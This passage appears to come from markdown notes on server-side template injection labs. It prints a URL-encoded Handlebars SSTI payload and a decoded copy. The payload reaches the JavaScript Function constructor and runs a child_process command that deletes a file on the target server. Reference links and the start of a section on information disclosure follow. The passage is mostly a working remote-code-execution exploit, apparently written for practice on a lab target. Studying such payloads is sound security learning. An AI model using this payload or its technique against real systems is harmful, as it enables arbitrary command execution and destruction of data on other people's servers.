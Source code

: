   ```
    wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
    
    
    URL Decoded =>
    
    wrtz{{#with "s" as |string|}}
      {{#with "e"}}
        {{#with split as |conslist|}}
          {{this.pop}}
          {{this.push (lookup string.sub "constructor")}}
          {{this.pop}}
          {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
            {{this.pop}}
            {{#each conslist}}
              {{#with (string.sub.apply 0 codelist)}}
                {{this}}
              {{/with}}
            {{/each}}
          {{/with}}
        {{/with}}
      {{/with}}
    {{/with}}
    
    ```

* 



References =>

`https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection`

`http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html`





#### 5.  Server-side template injection with information disclosure via user-supplied objects =>



Note -> `websites will contain both built-in objects provided by the template and custom, site-specific objects that have been supplied by the web developer`
  ```